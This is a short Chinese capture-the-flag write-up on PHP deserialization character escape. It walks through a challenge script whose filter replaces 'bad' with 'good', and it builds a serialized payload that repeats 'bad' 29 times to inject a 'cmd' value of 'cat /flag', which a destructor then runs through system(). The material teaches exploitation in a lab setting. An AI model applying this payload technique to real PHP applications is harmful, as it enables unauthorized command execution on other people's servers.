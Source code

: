 参考链接：[php反序列化字符逃逸](http://t.csdnimg.cn/aMcgn)

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}
class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}
unserialize(waf(serialize(new GetFlag($_GET['key']))));
```

这里我们需要更改`cmd`变量的值来进行命令执行

```
O:7:"GetFlag":2:{s:3:"key";s:3:"bad";s:3:"cmd";s:9:"cat /flag";} //没进waf
O:7:"GetFlag":2:{s:3:"key";s:3:"good";s:3:"cmd";s:9:"cat /flag";} //bad被换后，它的长度没有变化
```

我们要将`whoami`变成`cat /flag`，所以我们需要逃逸的字符是

`";s:3:"cmd";s:9:"cat /flag";}`这里前面的";是为了将bad参数位置处的双引号闭合

`";s:3:"cmd";s:9:"cat /flag";}`的长度是29，我们就需要29个bad

```php
<?php
class GetFlag
{
    public $key='badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:9:"cat /flag";}';
    public $cmd = "cat /flag";
}
function waf($str){
    return str_replace("bad","good",$str);
}
$a = new GetFlag();
$b= serialize($a)."\n";
echo $b;
$c = waf($b)."\n";
echo $c;
var_dump(unserialize($c));
?>
```
